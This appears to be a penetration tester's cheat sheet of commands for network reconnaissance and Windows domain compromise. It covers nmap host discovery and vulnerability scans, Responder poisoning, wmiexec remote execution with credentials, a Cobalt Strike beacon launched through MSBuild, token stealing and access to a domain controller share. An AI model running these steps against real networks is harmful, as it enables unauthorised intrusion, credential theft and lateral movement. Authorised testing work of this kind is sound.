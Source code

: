 *Host Discovery*
sudo nmap -oA live_hosts --stats-every 60s --log-errors --traceroute --reason --randomize-hosts -v -R -PE -PP -PM -PO -PU -PY 80,23,443,21,22,25,3389,110,445,139,53,135,3306,8080,1723,111,995,93,5900,1025,587,8888,199,1720,465,548,113,81,6001,10000,514,5060,179,1026,2000,8443,8000,32768,554,26,1433,49152,2001,515,8008,49154,1027,5666,646 -PA  80,23,443,21,22,25,3389,110,445,139,53,135,3306,8080,1723,111,995,93,5900,1025,587,8888,199,1720,465,548,113,81,6001,10000,514,5060,179,1026,2000,8443,8000,32768,554,26,1433,49152,2001,515,8008,49154,1027,5666,646 -sS -sV -p 21,22,23,25,80,443,445,8080,8443 -iL scope.txt

--script smb-vuln-ms17-010
--script smb-vuln-ms08-067

nmap -sP -PA21,22,25,3389 192.168.2.1/24 
sudo nmap -sP -PS22,3389 192.168.2.1/24 
sudo nmap -sP -PU161 192.168.2.1/24 

sudo nmap -sP -PS21,22,80,139,445,3389

Fast Live host discovery trick (checks only .1 on subnet):
---------------------------------------------------------------
sudo nmap -sn 10.0-255.0-255.1 -PE —min-hostgroup 10000 —min-rate 10000
(Then do normal fast discovery on confirmed subnet)
Discover banners:
    curl -head ip or hostname

NMAP ping sweep:
----------------------------------------------
sudo nmap -sn -iL discovery/ranges.txt -oA discovery/hosts/pingsweep -PE

NMAP quick RMI discovery scan:
-------------------------------------------
nmap -Pn -n -p 22,80,443,3389,2222 -iL discovery/ranges.txt  -oA discovery/hosts/rmisweep —min-hostgroup 256 —min-rate 1280

Cut results from RMI scan to 'Open' ports: cat discovery/hosts/rmisweep.gnmap |grep open | cut -d " " -f2

NMAP common port scan:
--------------------------------------------------------------------------
nmap -Pn -n -p 22,25,53,80,443,445,1433,3306,3389,5800,5900,8080,8443  -iL hosts/targets.txt -oA services/quick-sweep

NMAP Scan all ports:
---------------------------
nmap -Pn -n -iL targets.txt -p 0-65535 -sV -A -O -oA filename -min-rate 50000 min-hostgroup 22

To find out which NMAP .NSE script ran from above:
--------------------------------------------------
cat services/full-sweep.nmap |grep '|_' | cut -d '_' -f2 | cut -d ' ' -f1 | sort -u | grep ':'
for just HTTP targets: cat full-sweep.nmap | grep -i http-title

*Common RCE Ports*
nmap -oA commonRCE -iL live_hosts.txt -p 1090,1098,1099,4444,11099,47001,47002,10999,7000-7004,8000-8003,9000-9003,9503,7070,7071,45000,45001,8686,9012,50500,4848,11111,4445,4786,5555,5556 --open

*Common Web Ports*
nmap -p 80,443,8443,8080,8081,8444,8000,8100,8082,8001,8002,8500,8888,9000,8200,9000,8200,8008,8181,8900,8009 -iL live_hosts.txt -oA common_web_ports --open

*Using Aquatone to visualize*
cat common_web_ports.xml | .\aquatone.exe -nmap -chrome-path "C:\Program Files\Google\Chrome\Application\Chomre.exe" -out C:\Users\Magic\Desktop\aquatone

*InveighZero*
C# man-in-the-middle spoof LLMNR,NBNS,mDNS,DNS, and DHCPv6.

*responder*
sudo /usr/sbin/responder -I eth0

*Bloodhound*
Check unrolled RDP rights for all compromised users

*Remote Interaction*
python3 wmiexec.py domain/user:password@remotecompany.corp.com

*Cobalt Strike Beacon*
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild msbuild_x64.xml

From cobalt strike:
execute-assembly 

steal token of process running as other user
steal_token *first######*

shell dir \\domaincontroller.comp.com\C$

*Check for AutoLogon Files*

Credninja to test if compromised credentials have local administrator rights

*Check egress*
Egress-Access
Cobalt strike

*hashcracking*
GoCrack
